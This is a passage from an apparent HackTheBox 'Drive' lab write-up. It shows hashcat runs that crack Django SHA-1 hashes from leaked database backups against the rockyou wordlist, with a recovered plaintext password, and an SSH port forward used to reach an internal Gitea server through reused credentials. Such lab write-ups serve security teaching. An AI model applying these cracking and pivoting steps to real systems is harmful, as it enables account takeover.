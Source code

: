 ~~~bash
Recovered........: 1/5 (20.00%) Digests (total), 1/5 (20.00%) Digests (new), 1/5 (20.00%) Salts
Progress.........: 71721920/71721920 (100.00%)
Rejected.........: 0/71721920 (0.00%)
Restore.Point....: 14344384/14344384 (100.00%)
Restore.Sub.#1...: Salt:4 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: $HEX[206b6d3831303838] -> $HEX[042a0337c2a156616d6f732103]
Hardware.Mon.#1..: Temp: 85c Util: 92%

Started: Fri Oct 20 20:39:05 2023
Stopped: Fri Oct 20 20:39:28 2023
~~~

The cracked hash corresponds to the **tomHands** username. But this creds won't work anywhere.

### Gitea

We know there was a filtered port we can try port forwarding to gain access:

~~~bash
❯ ssh martin@10.10.11.235 -L 3000:127.0.0.1:3000
~~~

We have a gitea server.

![](@assets/HackTheBox/Drive/gitea.png)

We can login with the same password we logged in as martin but with **martinCruz** username instead.

There is a **db_backup.sh** where the database backup file password is leaked:

![](@assets/HackTheBox/Drive/7z_database.png)

I checked every backup and in the November one I managed to crack another another password for **tom**:

~~~bash
❯ hashcat -a 0 -m 124 hash_nov /usr/share/seclists/rockyou.txt
hashcat (v6.2.6) starting
...
Hashes: 5 digests; 5 unique digests, 5 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1
...
Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 1 MB

Dictionary cache hit:
* Filename..: /usr/share/seclists/rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

sha1$Ri2bP6RVoZD5XYGzeYWr7c$4053cb928103b6a9798b2521c4100db88969525a:johnmayer7
...                                                          
Session..........: hashcat
Status...........: Exhausted
Hash.Mode........: 124 (Django (SHA-1))
Hash.Target......: hash_nov
Time.Started.....: Fri Oct 20 21:10:09 2023 (18 secs)
Time.Estimated...: Fri Oct 20 21:10:27 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/seclists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  3781.7 kH/s (0.83ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
~~~